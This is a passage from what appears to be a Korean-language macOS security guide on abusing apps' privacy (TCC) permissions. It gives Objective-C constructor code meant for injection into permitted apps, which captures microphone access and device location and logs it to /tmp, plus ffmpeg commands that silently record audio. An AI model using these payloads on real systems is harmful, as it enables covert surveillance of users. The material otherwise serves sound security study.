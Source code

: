 ```objectivec
} else {
NSLog(@"[-] Access to microphone denied.");
return NO;
}
}
@end
__attribute__((constructor))
static void telegram(int argc, const char **argv) {
[MicrophoneAccessChecker hasMicrophoneAccess];
}
```
{% endtab %}

{% tab title="Shell" %}
5초 오디오를 녹음하고 `/tmp/recording.wav`에 저장합니다.
```bash
# Check the microphones
ffmpeg -f avfoundation -list_devices true -i ""
# Use microphone from index 1 from the previous list to record
ffmpeg -f avfoundation -i ":1" -t 5 /tmp/recording.wav
```
{% endtab %}
{% endtabs %}

### 위치

{% hint style="success" %}
앱이 위치를 얻으려면 **위치 서비스**(개인정보 보호 및 보안에서) **가 활성화되어야 하며,** 그렇지 않으면 접근할 수 없습니다.
{% endhint %}

* **권한**: `com.apple.security.personal-information.location`
* **TCC**: `/var/db/locationd/clients.plist`에서 부여됨

{% tabs %}
{% tab title="ObjectiveC" %}
위치를 `/tmp/logs.txt`에 기록합니다.
```objectivec
#include <syslog.h>
#include <stdio.h>
#import <Foundation/Foundation.h>
#import <CoreLocation/CoreLocation.h>

@interface LocationManagerDelegate : NSObject <CLLocationManagerDelegate>
@end

@implementation LocationManagerDelegate

- (void)locationManager:(CLLocationManager *)manager didUpdateLocations:(NSArray<CLLocation *> *)locations {
CLLocation *location = [locations lastObject];
NSLog(@"Current location: %@", location);
exit(0); // Exit the program after receiving the first location update
}

- (void)locationManager:(CLLocationManager *)manager didFailWithError:(NSError *)error {
NSLog(@"Error getting location: %@", error);
exit(1); // Exit the program on error
}

@end

__attribute__((constructor))
void myconstructor(int argc, const char **argv)
{
freopen("/tmp/logs.txt", "w", stderr); // Redirect stderr to /tmp/logs.txt
```